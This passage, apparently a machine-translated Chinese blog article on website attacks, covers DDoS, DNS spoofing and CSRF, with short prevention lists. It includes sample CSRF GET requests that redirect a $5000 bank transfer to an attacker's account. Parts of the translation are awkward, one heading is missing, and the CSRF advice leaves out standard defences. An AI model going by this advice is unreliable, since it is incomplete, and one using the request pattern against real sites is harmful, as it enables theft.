*   **碎片攻击:**这使得 TCP 或 UDP 碎片溢出到受害者的流中，降低了性能。
*   **应用攻击:**淹没特定应用的方面，导致产生低流量。
*   **DNS 反射:**攻击者伪造受害者的 IP，向 DNS 服务器发送一个小请求，向用户发送一个大范围的回复。

#### **DDoS 攻击的影响**

下面是在服务器和机器中可以看到的影响。

*   来自特定 IP 地址的流量不必要的增加。
*   来自具有相同行为特征(如设备类型、地理位置等)的特定用户组的流量意外增加。
*   有时，发送到单个页面或端点的请求会增加。
*   奇数日交通高峰。

#### **如何防范 DDoS 攻击**

以下是一些防止 DDoS 攻击的方法。

*   限制网络服务器路由器的速率。
*   在路由器上添加适当的过滤器，以阻止来自可疑来源的数据包。
*   设置连接的强制超时。
*   使用强大的防火墙抵御 DDoS 攻击。
*   使用 Akamai、Cloudflare、VeriSign、Arbor Networks 等厂商的第三方 DDoS 缓解软件。

[网站黑客/渗透测试](https://click.linksynergy.com/link?id=jU79Zysihs4&offerid=1045023.3931386&type=2&murl=https%3A%2F%2Fwww.udemy.com%2Fcourse%2Fwebsite-hacking-penetration-testing-tools%2F)

### **4。DNS 欺骗攻击**

域名系统(DNS)中毒和欺骗主要利用 DNS 服务器的漏洞，将流量从合法服务器转移到假冒服务器。如果受害者访问了欺诈性页面，他将被转移到另一个对您的系统造成损害的网站。这种攻击的主要影响是数据窃取。

为了进行这种攻击，客户端向 DNS 服务器请求 IP 地址。然后，他们会收到一个包含虚假 IP 地址的响应，没有与客户端请求的地址建立连接。因此，请求被发送到恶意主机，主机将合法网站返回给客户端，但没有安全证书。

#### **不同类型的 DNS 欺骗攻击**

以下是不同类型的 DNS 欺骗攻击。

在这种攻击下，攻击者修改数据并向本地设备添加恶意代码。受害者无法分辨其中的区别，也不知道他们的系统是否受到了任何损害。但是，对于请求的主机名，将返回不正确的 IP 地址。攻击将持续下去，直到篡改被纠正。例如，更改 DNS 服务器的详细信息、篡改本地系统上的主机文件、劫持本地路由器等。

*   **DNS 服务器响应攻击**

也称为中间人攻击，攻击者假装成受害者并发送恶意响应。这种攻击是可能的，因为 DNS 流量使用未加密的用户数据报协议，因此无法验证 DNS 响应的真实性。

这种类型的 DNS 欺骗攻击以有效的 DNS 服务器为目标，并影响许多用户。例如，毒害服务器上的 DNS 缓存，劫持 DNS 服务器等。

#### **如何防止 DNS 欺骗攻击**

以下是防止 DNS 欺骗攻击的方法-

*   限制递归查询并防止潜在的中毒攻击。
*   仅存储与请求的域相关的数据。
*   将响应限制为仅关于所请求的域。
*   强制客户端使用 HTTPS。

### **5。跨站请求伪造攻击**

跨站点请求伪造(CSRF)攻击受害者，并在没有授权访问的 web 应用程序上执行攻击者预期的一些不需要的操作。攻击者诱骗受害者执行攻击者选择的一些非法操作。

如果万一，受害者是经常使用者；攻击者只能执行转移资金、更改电子邮件地址等操作。如果受害者拥有管理权限，CSRF 可以影响整个 web 应用程序。

主要影响是服务器状态改变、数据泄露和非法转移资金。



#### **跨站点请求伪造攻击的工作原理**

当受害者试图访问网站时，浏览器会自动从保存的 cookies 中挑选他们的凭据，以使登录过程无缝进行。一旦用户传递了他们的登录凭证，网站就不能区分伪造的和合法的请求。在这种情况下，攻击者可以很容易地冒充受害者。攻击者通常遵循以下流程:

*   攻击者使用社会工程方法来影响受害者点击恶意代码链接。
*   该链接将触发对目标站点的请求。
*   该请求应该来自具有相同凭据的用户，并利用保存的数据登录到网站。
*   网站响应传入的请求，并执行攻击者请求的操作。

#### **跨站点请求伪造攻击示例**

下面是一个简单的 GET 请求 5000 美元银行转账的例子:

```
GET https://abank.com/transfer.do?account=RandPerson&amount=$5000 HTTP/1.1
```

*   攻击者可以使用以下代码修改脚本，向他们的帐户转账 5000 美元:

```
GET https://abank.com/transfer.do?account=SomeAttacker&amount=$5000 HTTP/1.1
```

#### **如何防止跨站请求伪造攻击**

以下是防止这种攻击的最佳实践:

*   确保您在不使用时总是注销已登录的 web 应用程序。
*   使用强有力的用户名和密码以避免伪造。
*   尽量不要访问并行浏览器来做关键工作。

## **结论**

我们只提到了一个简单的[网站](https://hackr.io/blog/how-to-create-a-website-using-html)上最常见的攻击，那里的安全性没有得到维护。今天，技术变得如此先进，以至于它可以帮助攻击者得到他们想要的东西。他们需要的只是正确使用网络内的通信。每个组织和网站都有其独特的安全策略和一些可靠的策略。但是一些黑客可以侵入你的系统，制造一个错误。

如果你想避免这样的攻击来保护你的网站的完整性，那么你必须了解一个网站是如何被黑客攻击的，以及可以采取什么措施来避免它们。通读这篇文章，找到你的网站的潜在威胁点，并消除这些威胁。

有兴趣了解更多关于网站安全的信息吗？查看这些[信息安全和道德黑客教程。](https://hackr.io/tutorials/learn-information-security-ethical-hacking)

**人们也在阅读:**